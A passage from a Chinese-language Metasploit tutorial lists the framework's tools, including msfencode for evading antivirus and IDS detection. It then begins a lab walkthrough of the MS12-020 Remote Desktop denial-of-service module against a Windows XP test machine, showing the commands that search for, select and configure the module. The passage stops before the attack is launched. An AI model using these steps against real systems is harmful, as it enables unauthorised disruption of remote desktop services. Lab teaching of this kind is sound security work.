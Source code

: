 命令行（msfcli），msfcli脚本处理和其他命令工具的互操作性。 Armitage，Metasploit框架中一个完全交互式的图形化用户接口。 

#### 1.4 功能程序

MSF攻击载荷生成器（msfpayload），用于生成自己定制的shellcode、可执行代码等。 

MSF编码器（msfencode），帮助msfpayload进行编码处理，避免坏字符，以及逃避杀毒软件和IDS的检测。 

### 2、Metasploit实验

------

#### 2.1 MS12-020漏洞利用演示实验

2.1.1 微软关于MS12-020漏洞的安全公告: [ http://technet.microsoft.com/zh-cn/security/bulletin/ms12-020](http://technet.microsoft.com/zh-cn/security/bulletin/ms12-020) 

2.1.2 实验准备工作 

1、该漏洞利用远程桌面的漏洞进行攻击，所以需要靶机xp系统打开远程桌面功能。 

2、检查确定渗透测试系统与靶机系统可以互相ping通。 

2.1.3 实验步骤 1、渗透测试系统中，在终端输入msfconsole进入msf终端，接着在msf终端中使用search功能搜索ms12-020，发现有两个可用模块： 

```
msf > search ms12-020
 
Matching Modules
================
   Name                                              Disclosure Date  Rank    Description
   ----                                              ---------------  ----    -----------
   auxiliary/dos/windows/rdp/ms12_020_maxchannelids  2012-03-16       normal  MS12-020 Microsoft Remote Desktop Use-After-Free DoS
   auxiliary/scanner/rdp/ms12_020_check                               normal  MS12-020 Microsoft Remote Desktop Checker
```

2、使用use命令选定要利用的模块： 

```
msf > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf auxiliary(ms12_020_maxchannelids) 
```

3、查看需要填写的参数，这里需要填写靶机ip。 

```
msf auxiliary(ms12_020_maxchannelids) > show options 
 
Module options (auxiliary/dos/windows/rdp/ms12_020_maxchannelids):
 
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  3389             yes       The target port
 
msf auxiliary(ms12_020_maxchannelids) > set RHOST 192.168.116.129
RHOST => 192.168.116.129
```
